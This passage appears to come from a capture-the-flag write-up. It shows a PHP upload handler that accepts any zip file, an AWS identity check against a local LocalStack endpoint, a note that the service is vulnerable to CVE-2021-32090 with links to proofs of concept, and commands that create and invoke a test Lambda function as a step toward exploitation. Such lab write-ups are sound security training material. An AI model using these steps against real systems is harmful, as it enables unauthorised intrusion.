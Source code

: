 ```php
		}
	}
	else{
		$target_dir = "uploads/";
		$target_file = $target_dir . basename($_FILES["file"]["name"]);
		$FileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
		if($FileType != "zip"){
			$msg = "Sorry only zip files are accepted";
		}
		else{
			if(move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)){
				$msg = "Payload function code uploaded";
			}
		}
	}
    }
?>
```

Check out maximus_supervisor 's AWS called ID:
```sh
maximus_supervisor@emit:/var/www/html/maximus-admin-panel$ aws --endpoint http://localhost:4566 sts get-caller-identity
{
    "UserId": "AKIAIOSFODNN7EXAMPLE",
    "Account": "000000000000",
    "Arn": "arn:aws:sts::000000000000:user/moto"
}
````

From the git repository, it leaked the LogStack version of v0.12.6 which is vulnerable to CVE-2021-32090. Using the following as references to POCs, we can see if we can exploit it!
[https://0xdf.gitlab.io/2022/03/19/htb-stacked.html](https://0xdf.gitlab.io/2022/03/19/htb-stacked.html)
[https://www.cvedetails.com/cve/CVE-2021-32090/](https://www.cvedetails.com/cve/CVE-2021-32090/)
[https://www.sonarsource.com/blog/hack-the-stack-with-localstack/](https://www.sonarsource.com/blog/hack-the-stack-with-localstack/)

Since we can access the lambda service via the admin portal, lets see if we can create our own functions and invoke it.
```sh
cd /tmp
bash -c 'cat << "EOF" > example.js
exports.handler =  async function(event, context) {
  console.log("EVENT: \n" + JSON.stringify(event, null, 2))
  return context.logStreamName
}
EOF'
zip example.zip example.js
aws lambda create-function --function-name example --zip-file fileb://example.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint http://localhost:4566  --handler example.handler --runtime nodejs12.x
aws lambda invoke --function-name example --endpoint-url http://localhost:4566 out.json
```
